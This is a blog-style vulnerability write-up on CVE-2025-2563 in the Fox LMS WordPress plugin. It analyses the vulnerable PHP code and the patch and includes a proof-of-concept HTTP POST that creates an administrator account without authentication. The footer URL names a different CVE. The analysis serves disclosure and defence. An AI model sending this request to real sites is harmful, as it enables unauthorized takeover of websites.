

# CVE-2025-2563 Analysis & POC


<!--more-->

## CVE & Basic Info

The plugin **The Fox LMS – WordPress LMS Plugin** for **WordPress** contains a **privilege escalation** vulnerability in all **versions up to and including 1.0.5.1**. The root cause is that the plugin **does not properly validate the “role” parameter** when **creating new users** via the **REST API endpoint `/fox-lms/v1/payments/create-order`**. This allows **unauthenticated attackers** to **create new user accounts with arbitrary roles, including administrator**, which can lead to **full site compromise**.

* **CVE ID**: [CVE-2025-2563](https://www.cve.org/CVERecord?id=CVE-2025-2563)
* **Vulnerability Type**: Privilege Escalation
* **Affected Versions**: 1.0.4.7-1.0.5.1
* **Patched Versions**: 1.0.5.2
* **CVSS severity**: High (9.8)
* **Required Privilege**: Unauthenticated
* **Product**: [WordPress Fox LMS Plugin](https://wordpress.org/plugins/fox-lms/)

## Requirements

* **Local WordPress & Debugging**

  * [Virtual Machine](https://w41bu1.github.io/posts/2025-08-21-wordpress-local-and-debugging/)
  * [Docker](https://w41bu1.github.io/posts/2025-10-22-wordpress-local-and-debugging-docker/)
* **Plugin Version** - **Fox LMS**:

  * `1.0.5.1` – **vulnerable**
  * `1.0.5.3` – **patched**
* **Diff Tool (diff)** → [**Meld**](https://meldmerge.org/) or any diff tool.

> [!NOTE] Although the public information states that the vulnerability was fixed in version **`1.0.5.2`**, in practice the fix was only fully applied starting from version **`1.0.5.3`**.

## Analysis

The plugin registers a REST API as follows:

```php {title="Payments.php v1.0.5.1" data-open=true hl_lines=[]}
register_rest_route(
    self::getNamespace(), // fox-lms/v1
    $this->getRoute('create-order'), // payments/create-order
    [
        'methods'             => WP_REST_Server::CREATABLE, // POST
        'callback'            => [$this, 'createOrder'],
        'permission_callback' => '__return_true',
    ]
);
```

With this configuration, the endpoint is exposed at:

```
/wp-json/fox-lms/v1/payments/create-order
```

When a POST request is sent to this endpoint, WordPress automatically invokes the `createOrder()` function. Because `'permission_callback' => '__return_true'` is configured, the endpoint does not enforce any permission checks. This means that **any user, including unauthenticated users, can access and execute this API without any authorization restrictions**.

```php {title="Payments.php v1.0.5.1" data-open=true hl_lines=[]}
public function createOrder(WP_REST_Request $request): WP_REST_Response
{
    $defaults = [
        'courseId'   => 0,
        'role'       => 'subscriber',
        ...
    ];
    ...
    $params = wp_parse_args($request->get_params(), $defaults);

    if (absint($params['courseId']) <= 0) {
        return (new Response() )->respond(
            [
                'message' => Fox_Lms_Checkout_Public::getPaymentError(
                    $this->errorTitle,
                    __('Course not found', 'fox-lms')
                ),
            ],
            404
        );
    }
    $username = sanitize_user($params['username']);
    $email    = sanitize_email($params['email']);
    ...
    try {
        $currency = Payment::instance()->getCurrencyCode();

        $course         = get_post($params['courseId']);
        $course_info = Fox_Lms_Data::get_course_by_post_id( $params['courseId']);
            
        $settings = Fox_Lms_Data::get_course_validated_data_from_array( $course_info,[]);
        $price = Fox_Lms_Data::fox_lms_get_course_price($settings);
    
        $courseSettings = [
            'priceType'  => ! empty($settings['fox_lms_payment_type']) ? $settings['fox_lms_payment_type'] : 'free',
            'price' => $price,
        ];
        // $courseSettings = SettingsManager::get($course->ID);
        $price          = floatval($courseSettings['price']);
        ...

        // If price is zero or less, treat as free order: create completed order and enroll user immediately.
        if ($price <= 0) {
            global $wpdb;

            $userId = 0;
            if (is_user_logged_in()) {
                $userId = get_current_user_id();
            } else {
                $userData = array(
                    'first_name' => sanitize_text_field($params['first_name']),
                    'last_name'  => sanitize_text_field($params['last_name']),
                    'user_login' => sanitize_user($params['username']),
                    'user_email' => sanitize_email($params['email']),
                    'user_pass'  => sanitize_text_field($params['password']),
                    'role'       => sanitize_text_field($params['role']),
                );

                $userId = wp_insert_user($userData);
                ...
            }
        }
        ...
    }
}
```

The `createOrder()` function receives request data and applies default values, where **`role` defaults to `subscriber`**. However, all parameters supplied by the client are merged directly into `$params` via `wp_parse_args()` **without any validation or restriction on valid values for `role`**.

When the course price is **zero or free**, the system automatically creates a new user account if the requester is not logged in. User data is taken directly from the request, including:

```php
'role' => sanitize_text_field($params['role']),
```

This means an attacker only needs to send a POST request to `/wp-json/fox-lms/v1/payments/create-order` and supply an arbitrary value for `role` (for example, `administrator`). Since the endpoint **does not enforce access control** and the function **does not validate the role value**, the new account will be created with the specified privileges.

As a result, an unauthenticated attacker can **create an account with administrator privileges**, leading to **privilege escalation and complete site compromise**.

The patch in **`v1.0.5.3`** mitigates this issue by **hardcoding the `role` value to `subscriber`** when creating new user accounts, instead of accepting it from user input. This prevents attackers from injecting arbitrary roles to escalate privileges.

```php
$userData = array(
    'first_name' => sanitize_text_field($params['first_name']),
    'last_name'  => sanitize_text_field($params['last_name']),
    'user_login' => sanitize_user($params['username']),
    'user_email' => sanitize_email($params['email']),
    'user_pass'  => sanitize_text_field($params['password']),
    'role'       => 'subscriber',
);
```

## Flow



## Proof of Concept (PoC)

1. Send a request to create a user:

```http
POST /wp-json/fox-lms/v1/payments/create-order HTTP/1.1
Host: localhost

role=administrator&first_name=hacker&last_name=hacker&username=hacker&email=hacker@gmail.com&courseId=course_id
```

**Result**:


2. Log in with the newly created user.

## Conclusion

The **CVE-2025-2563** vulnerability stems from **a publicly exposed REST API without proper access control** combined with **a lack of validation for the `role` parameter**, allowing unauthenticated attackers to create accounts with arbitrary privileges, including **Administrator**. Although the disclosure states that the issue was fixed in `1.0.5.2`, the fix was only fully effective starting from **`1.0.5.3`**, where the role was hardcoded to `subscriber`. Users should update the plugin immediately and review existing user accounts for potential abuse.

## Key Takeaways

* Do not expose sensitive APIs without proper access control.
* Do not trust client-supplied data, especially privilege-related parameters.
* Always validate and whitelist input values.
* Verify actual fixes instead of relying solely on release notes.

## References

[Privilege Escalation](https://patchstack.com/academy/wordpress/vulnerabilities/privilege-escalation/)

[WordPress Fox LMS Plugin 1.0.4.7-1.0.5.1 is vulnerable to a high priority Privilege Escalation](https://patchstack.com/database/wordpress/plugin/fox-lms/vulnerability/wordpress-fox-lms-plugin-1-0-4-7-1-0-5-1-unauthenticated-privilege-escalation-vulnerability)


---

> Author: [Bui Van Y](github.com/w41bu1)  
> URL: http://localhost:1313/posts/2026-01-08-cve-2025-14156/  

